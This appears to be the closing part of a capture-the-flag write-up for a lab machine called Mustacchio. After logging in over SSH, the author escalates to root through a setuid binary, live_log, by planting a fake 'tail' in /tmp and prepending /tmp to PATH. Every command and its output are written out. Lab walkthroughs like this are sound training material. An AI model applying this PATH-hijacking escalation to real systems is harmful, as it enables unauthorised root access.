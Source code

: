 Now we should have the passphrase. And should be able to ssh as barry.

```bash
barry@mustacchio:~$ ls
user.txt
```

## ROOT

Now I tried to download **_linpeas.sh_** from my box but it does not seem to work. so I looked for other users in the box instead and found **_joe_** user.

Navigating to **_joe's_** home directory shows a **_live_log_** file. Which looks like an executable file.

```bash
barry@mustacchio:/home/joe$ file live_log 
live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped
```

I tried to execute it and it shows me some logs for when I browse to the port 8765 web server.
I ran the **_strings_** command to see if there's anything interesting, and I noticed this line which matches the output of the live_log file. Basically it runs the **_tail -f_** command against the **_/var/log/nginx/access.log_** file. 

From here we can also notice the it has a SUID bit. which executes the file as root when we run it.

```bash
-rwsr-xr-x 1 root root 16832 Jun 12  2021 live_log
```

Now we can try gaining Privilege escalation using Path Variable. [linux priv esc using path variable](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

Let's go to /tmp.

Create a tail file with `/bin/bash` as its contents.

```bash
barry@mustacchio:/tmp$ ls
tail
barry@mustacchio:/tmp$ cat tail
/bin/bash
barry@mustacchio:/tmp$ chmod +x tail
```

Now that we have our `tail` command that will execute `/bin/bash` when called. We will then need to change our **_$PATH_** variable, to do this:

```bash
barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
```

This command will add **_/tmp_** to our original **_$PATH_** so that when you run `which tail` it should go to **_/tmp_** first and run our malicious `tail` before checking other paths.

Now let's run **_live_log_**

```bash
barry@mustacchio:/home/joe$ ./live_log 
root@mustacchio:/home/joe# cd /root
root@mustacchio:/root# ls
root.txt
```

And we are root!






